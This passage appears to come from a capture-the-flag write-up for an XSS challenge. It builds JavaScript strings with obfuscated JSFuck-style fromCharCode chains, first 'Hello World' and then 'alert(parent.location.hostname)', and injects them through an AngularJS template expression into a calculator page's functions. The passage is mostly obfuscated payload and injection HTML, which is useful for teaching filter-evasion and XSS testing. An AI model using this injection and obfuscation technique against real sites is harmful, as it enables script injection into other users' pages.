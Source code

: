 ```js
((![]+[])[+!+[]]).constructor.fromCharCode(72)+((![]+[])[+!+[]]).constructor.fromCharCode(101)+((![]+[])[+!+[]]).constructor.fromCharCode(108)+((![]+[])[+!+[]]).constructor.fromCharCode(108)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(32)+((![]+[])[+!+[]]).constructor.fromCharCode(87)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(114)+((![]+[])[+!+[]]).constructor.fromCharCode(108)+((![]+[])[+!+[]]).constructor.fromCharCode(100)
```

![Chrome console approves!](/bugpoc-xss-challenge-2/step4-angular-jsfuck1.png)

So then we can build the string "`alert(parent.location.hostname)"` like so:

```js
((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(108)+((![]+[])[+!+[]]).constructor.fromCharCode(101)+((![]+[])[+!+[]]).constructor.fromCharCode(114)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(40)+((![]+[])[+!+[]]).constructor.fromCharCode(112)+((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(114)+((![]+[])[+!+[]]).constructor.fromCharCode(101)+((![]+[])[+!+[]]).constructor.fromCharCode(110)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(46)+((![]+[])[+!+[]]).constructor.fromCharCode(108)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(99)+((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(105)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(110)+((![]+[])[+!+[]]).constructor.fromCharCode(46)+((![]+[])[+!+[]]).constructor.fromCharCode(104)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(115)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(110)+((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(109)+((![]+[])[+!+[]]).constructor.fromCharCode(101)+((![]+[])[+!+[]]).constructor.fromCharCode(41)
```

And add it to the value of the a variable in our expression:

```html
<script src=angular.min.js></script>
<script src=script.js></script>
<div ng-app=Calculator ng-controller=ArthmeticController>
    <h1>{{a=((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(108)+((![]+[])[+!+[]]).constructor.fromCharCode(101)+((![]+[])[+!+[]]).constructor.fromCharCode(114)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(40)+((![]+[])[+!+[]]).constructor.fromCharCode(112)+((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(114)+((![]+[])[+!+[]]).constructor.fromCharCode(101)+((![]+[])[+!+[]]).constructor.fromCharCode(110)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(46)+((![]+[])[+!+[]]).constructor.fromCharCode(108)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(99)+((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(105)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(110)+((![]+[])[+!+[]]).constructor.fromCharCode(46)+((![]+[])[+!+[]]).constructor.fromCharCode(104)+((![]+[])[+!+[]]).constructor.fromCharCode(111)+((![]+[])[+!+[]]).constructor.fromCharCode(115)+((![]+[])[+!+[]]).constructor.fromCharCode(116)+((![]+[])[+!+[]]).constructor.fromCharCode(110)+((![]+[])[+!+[]]).constructor.fromCharCode(97)+((![]+[])[+!+[]]).constructor.fromCharCode(109)+((![]+[])[+!+[]]).constructor.fromCharCode(101)+((![]+[])[+!+[]]).constructor.fromCharCode(41);updateCurrNum(a);calculate();1+1}}</h1>
    <iframe name=theiframe></iframe>
</div>
```
